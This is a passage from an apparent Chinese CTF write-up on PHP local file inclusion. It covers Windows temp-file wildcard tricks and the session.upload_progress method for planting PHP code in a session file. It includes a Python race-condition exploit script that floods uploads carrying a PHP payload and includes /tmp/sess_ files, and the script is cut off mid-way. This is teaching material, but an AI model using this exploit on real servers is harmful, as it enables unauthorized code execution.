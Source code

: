 即：

* DOS_STAR，字符`<`，匹配0个以上的字符
* DOS_QM，字符`>`，匹配一个字符
* DOS_DOT，字符`"`，匹配点号

因此，如果PHP运行在Windows系统上的话，其临时文件夹为`C:\Windows\Temp\`，可以知道的是PHP临时文件的文件名为php加六个随机字符。

因此匹配的通配符为：

```http
C:\Windows\Temp\php<<
```

根据作者的话来说，Windows一些内部不太明确的原因，需要两个`<`进行匹配。

这题显然也不行，题目是基于Docker的环境。

##### session.upload_progress与Session文件包含

如果PHP配置中启用了`session.upload_progress.enable`，那么此种方式大概率可利用。

根据PHP官方文档解释，PHP为了能提供文件上传的进度等信息，将会把上传的文件信息存入Session文件，因此，精心构造文件信息时，我们就能向Session文件插入PHP代码，从而再包含Session即可执行恶意代码。

通过自己设置Cookie中的PHPSESSID，可以使得PHP在临时目录下创建一个控的Session文件，其文件名为`/tmp/sess_{PHPSESSID}`。

然后再考虑，不断的上传文件，然后包含SESSION文件。

由于Session文件名可控，这一个条件竞争相对来说比较简单，还是大佬的脚本：

```python
import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://192.168.1.162:8080/index.php'
session = requests.session()
flag = 'helloworld'


def upload(e: threading.Event):
    files = [
        ('file', ('load.png', b'a' * 40960, 'image/png')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success', '<?=phpinfo()?>'); echo('{flag}'); ?>'''}

    while not e.is_set():
        requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )


def write(e: threading.Event):
    while not e.is_set():
        response = requests.get(
            f'{target}?file=/tmp/sess_{flag}',
        )

        if flag.encode() in response.content:
            e.set()


if __name__ == '__main__':
    futures = []
    event = threading.Event()
```